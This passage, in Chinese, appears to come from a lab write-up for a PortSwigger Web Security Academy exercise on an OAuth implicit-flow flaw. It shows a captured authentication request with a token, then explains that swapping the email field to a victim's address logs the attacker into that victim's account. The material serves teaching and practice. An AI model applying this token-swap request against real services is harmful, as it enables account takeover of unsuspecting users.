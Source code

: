 {&quot;email&quot;:&quot;<a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="27504e42494255674f48534348400944484a">[email&#160;protected]</a>&quot;,&quot;username&quot;:&quot;wiener&quot;,&quot;token&quot;:&quot;G3dOwAKEb2Dg2UnFfoH2UjVpGIaq833HrGaJg2_nEWg&quot;}
</code></pre>

<p>从这个请求中，我们容易分析出授权的令牌信息即为 Token 的内容。现在我们已知一个用户的邮箱为<a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="284b495a44475b684b495a44475b054547465c47514906464d5c">[email&#160;protected]</a>，尝试用如下报文实现对这个邮箱对应账户的登录。</p>

<pre><code class="language-plain">POST /authenticate HTTP/1.1
Host: accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net
Cookie: session=4XXdLxkBBr2PHqqJiuogfnxTH5o84ixX
Content-Length: 103
Sec-Ch-Ua: &quot;Chromium&quot;;v=&quot;95&quot;, &quot;;Not A Brand&quot;;v=&quot;99&quot;
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Sec-Ch-Ua-Platform: &quot;macOS&quot;
Origin: https://accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{&quot;email&quot;:&quot;<a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="d4b7b5a6b8bba794b7b5a6b8bba7f9b9bbbaa0bbadb5fabab1a0">[email&#160;protected]</a>&quot;,&quot;username&quot;:&quot;wiener&quot;,&quot;token&quot;:&quot;G3dOwAKEb2Dg2UnFfoH2UjVpGIaq833HrGaJg2_nEWg&quot;}
</code></pre>

<p>我们仅仅需要将用户的邮箱改为<a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="dfbcbeadb3b0ac9fbcbeadb3b0acf2b2b0b1abb0a6bef1b1baab">[email&#160;protected]</a>，就可以尝试利用OAuth授权漏洞实现对其他用户账户的登录。</p>

<p><img src="assets/8b81b07821494924a51a8407506ca92b.jpg" alt="图片" /></p>
